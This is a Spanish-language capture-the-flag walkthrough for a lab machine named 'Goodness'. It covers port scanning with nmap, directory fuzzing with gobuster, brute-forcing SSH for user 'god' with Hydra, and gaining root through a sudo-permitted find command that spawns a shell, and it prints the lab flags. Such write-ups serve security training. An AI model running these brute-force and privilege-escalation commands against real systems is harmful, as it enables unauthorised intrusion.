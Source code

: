 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CTF Goodness Easy

URL Download CTF =[ ](https://drive.google.com/file/d/1Egn3NKBBF8eRtGG9xMpcb-LnzwgCb6pH/view?usp=sharing)[https://drive.google.com/file/d/1ZfCHQlCeloiXfcwoz4iXhbsv3e2mY0oM/view?usp=sharing](https://drive.google.com/file/d/1ZfCHQlCeloiXfcwoz4iXhbsv3e2mY0oM/view?usp=sharing)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-03 14:31 CEST
Nmap scan report for 192.168.5.217
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 66:c8:a5:dd:46:68:3c:b6:2f:ee:41:54:d9:6a:f6:69 (ECDSA)
|_  256 9e:50:82:05:f9:69:51:4a:5b:11:5c:7c:34:ec:cf:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: CTF - Goodness
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 00:0C:29:63:06:E2 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.92 seconds
```

Veremos una pagina web normal y corriente en la que no habra mucho que hacer, por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.217/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 6705]
/agora                (Status: 200) [Size: 2743]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que hemos encontrado un archivo llamado `/agora` y si entramos dentro del mismo veremos otra pagina web, si inspeccionamos el codigo veremos lo siguiente:

```
URL = http://<IP>/agora
```

```html
<!-- Mira bien la pagina  -->
```

Si miramos bien la pagina, veremos que en el `footer` pone lo siguiente:

```
Creado por: god
```

Podremos ver lo que puede ser un usuario llamado `god` por lo que vamos a realizar un poco de `fuerza bruta` con dicho usuario de la siguiente forma.

## Escalate user god

### Hydra

```shell
hydra -l god -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-03 15:27:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.217:22/
[22][ssh] host: 192.168.5.217   login: god   password: love
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 17 final worker threads did not complete until end.
[ERROR] 17 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-03 15:27:54
```

Veremos que hemos encontrado las credenciales de dicho usuario, por lo que nos vamos a conectar por `SSH`.

```shell
ssh god@<IP>
```

Metemos como contraseña `love` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario `god`.

> user.txt

```
FLAG{user_goodness_flag}
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for god on goodness:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User god may run the following commands on goodness:
    (ALL : ALL) ALL
    (ALL : ALL) NOPASSWD: /usr/bin/find
```

Veremos que podemos ejecutar `find` como el usuario `root`, pero tambien tendremos directamente todos los privilegios de `root`, aunque si lo hacemos por el binario `find` seria de la siguiente forma:

```shell
sudo find . -exec /bin/bash \; -quit
```

Info:

```
root@goodness:/home/god# whoami
root
```

Veremos que seremos `root`, por lo que leeremos la `flag` del usuario `root`.

> root.txt

```
FLAG{goodness_flag}
```
